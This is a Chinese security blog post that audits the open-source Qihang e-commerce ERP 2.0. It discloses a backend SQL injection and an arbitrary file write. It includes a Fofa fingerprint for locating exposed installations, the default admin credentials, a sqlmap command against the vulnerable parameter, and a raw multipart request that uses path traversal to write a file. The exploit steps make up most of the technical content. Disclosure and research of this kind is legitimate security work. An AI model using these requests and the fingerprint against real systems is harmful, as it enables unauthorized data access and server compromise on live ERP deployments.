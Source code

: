 #  【JAVA代码审计】启航电商ERP2.0漏洞挖掘   
原创 星悦  星悦安全   2025-04-21 11:34  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
█   
该文章来自零日防线社区用户投稿   
█  
  
启航电商ERP系统2.0版本是一个完整开箱即用的开源电商ERP系统，经历1.0版本的迭代优化和客户使用验证。开发者可以直接部署即可使用。一个专注核心订单处理业务，主体功能包括：商品库管理（商品、SKU、分类、属性、供应商等）、订单库管理、店铺订单管理、发货管理、售后管理、库存管理、店铺管理（店铺管理、店铺商品管理、店铺电子面单账号管理、平台参数设置）等。  
  
Fofa指纹:  
"static/css/chunk-libs.b880db92.css"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9ULRbiciah30cNcb12vXE06tEZEV2BWJCBbTxmLLQBaOCnWK9Bp5SibtyQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9Jxp1MQJ9f8rMXiaO5z4QMH80jb6fLVPSV1lE4pibpwDZuT7P3y28lRSA/640?wx_fmt=png&from=appmsg "")  
  
后台：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9Hj9WS9ob84Tt7xWFjt9unFHzYt1YKrZq2GiaVXUrdqHkODjyFA10Diaw/640?wx_fmt=png&from=appmsg "")  
  
安装部署:  
  
```
启航电商ERP2.0系统
https://gitee.com/qiliping/qihangerp

mysql8
vue
  npm install
  set NODE_OPTIONS=--openssl-legacy-provider
  npm run dev
redis
  127.0.0.1
  密码注释掉
nginx
  请求localhost:88/dev-api/xxx的请求转发到localhost:8088/xxx
  listen 88;
  location /prod-api/---->location /dev-api/

admin admin123

```  
  
## 0x01 后台SQL注入漏洞  
  
位于 SysDeptController.java 中存在传参，路由为 /api/sys-api/system/dept  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9mcOhtt9IgvKnrtUDNkSqlyLSt1vSfuHsZOwTj5TArMH8Ybg4VoETDg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9LjZzKib85R9Iv6huVRwndX6ibtunEsSicdYmg0MwwyYV1gphj2HELdclw/640?wx_fmt=png&from=appmsg "")  
  
Payload: 访问后台，抓包搜索  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9zcdbBcaluuiaVneic7nwZE6BqtGvVF1tLGvibOu9AicUDY1ibibPeGj768mA/640?wx_fmt=png&from=appmsg "")  
  
```
python sqlmap.py -r 1.txt --batch -p params[dataScope] -t MYSQL --level5 --risk3

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9YnvNsEjLkhyw1qaouMwibTHiakcRNn4Jia12gGcgzYygDUXn0GGBoKeuQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 后台任意文件写入  
  
触发点位于 GoodsController.java 中 这里获取了File参数后上传，且没有做任何校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q9dcxqh9NGVcWWTricic2eTvTNDxZENq1IEibfXogDiaNlv7Spkc9w5kppyA/640?wx_fmt=png&from=appmsg "")  
  
Payload:  
  
```
POST /dev-api/api/oms-api/goods/goods_sku_import
Cookie: AdminToken=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImVkYTM0NmE0LTg1ZjctNDUwOC1hYzU5LTZiZDljMzY4ZmNkNCJ9.xEAke3QVZqxKar_ymolByj9JTVz2qVluTueuxiCW_n0tUegjwIW9IXvIQZjRFkkGLLeeXKpIal-ZZ_XhuhjpQ

------WebKitFormBoundaryZbLbp9JQe0WhOgj3
Content-Disposition: form-data; name="file";    filename="\\..\\..\\mitan.txt"
Content-Type: image/png

11111111111
------WebKitFormBoundaryZbLbp9JQe0WhOgj3--

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dzia1fznh7VvQ5cYujEY4Q90b066BFrKnzmEcLYTqkNEzRFcRJYMicdO9tLvgA9LSqkdeHVWSaDYJQ/640?wx_fmt=png&from=appmsg "")  
## 0x03 源码下载  
  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**ERP源码关注公众号发送 250421 获取!**  
  
****  
  
  
优质代码审计社区-零日防线 加入方式:   
  
```
https://mp.weixin.qq.com/s/EFgzGZSc7DGxXZc3DlALtw
```  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dRh2qJocKRqXsPUaMdtXwOicRKb2g7p9nlbJkJhmssBibAj7DBNY2rjXicoI2Xpmc176zwGzWEIjW9A/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
